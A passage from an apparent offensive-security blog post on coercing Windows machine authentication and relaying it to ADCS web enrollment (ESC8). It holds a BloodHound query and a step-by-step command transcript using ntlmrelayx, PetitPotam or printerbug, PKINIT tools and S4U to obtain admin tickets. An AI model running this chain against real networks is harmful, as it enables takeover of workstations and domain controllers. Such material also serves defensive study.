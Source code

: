 The ability to force a machine to authenticate to you, by default over SMB, has spawned some interesting new use cases, described below. You can of course, still try to abuse this captured authentication as you normally would with ntlmrelayx, with the caveat that the captured computer authentication likely requires local admin privileges to your relay target. You can query for this in BloodHound:

‍

```
MATCH p = (m:Computer)-[r1:AdminTo]->(n:Computer) RETURN p UNION ALL MATCH p = (c:Computer)-[r2:MemberOf|HasSIDHistory*1..]->(g:Group)-[r3:AdminTo]->(d:Computer) RETURN p 
```

‍

#### ADCS Compromise via NTLM Relay

As a result of the [Certified Pre-Owned](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) research, the attack dubbed *ESC8* became very popular. This involves relaying coerced machine account authentication to an ADCS (Active Directory Certificate Services) web enrollment service (which accepts NTLM auth, by default) and obtaining a certificate that enables domain authentication as the target. Here's the flow for taking over a workstation or server in this manner:

<img width="850" height="330" src="../../_resources/620aca3c71d4ca5d2d10ebb3_graphic_fccbbe11cea84652a.png"/>

If your target is a domain controller, there's no need for S4U. Once you have a TGT you can just go right to DCSync. That's probably the most well documented variation of this attack, but it's usually possible to target any system in this manner. (Targeting a DC in this attack may not even require a compromised credential for PetitPotam, but we'll come back to that.)

‍

##### Example Attack Transcript

```
# https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
python3 ntlmrelayx.py -t http://ca.domain.local/certsrv/certfnsh.asp --adcs --template [DomainController|Machine] -smb2support

# https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py
python3 printerbug.py domain.local/user:pass@target.domain.local <attacker ip>

# OR
# https://github.com/topotam/PetitPotam/blob/main/PetitPotam.py
python3 PetitPotam.py -u user -p pass -d domain.local <attacker ip> target.domain.local

# Obtain TGT using https://github.com/dirkjanm/PKINITtools
# Use the base64 certificate blob from ntlmrelayx, or decode the base64 to a file and use the -cert-pfx flag
python3 gettgtpkinit.py domain.local/target\$ target.ccache -pfx-base64 <base64 blob>

# Obtain a TGS using S4U2Self to obtain admin rights on the target
python3 gets4uticket.py kerberos+ccache://domain.local\\target\$:target.ccache@dc.domain.local cifs/target.domain.local@domain.local administrator@domain.local administrator.ccache -v 
```

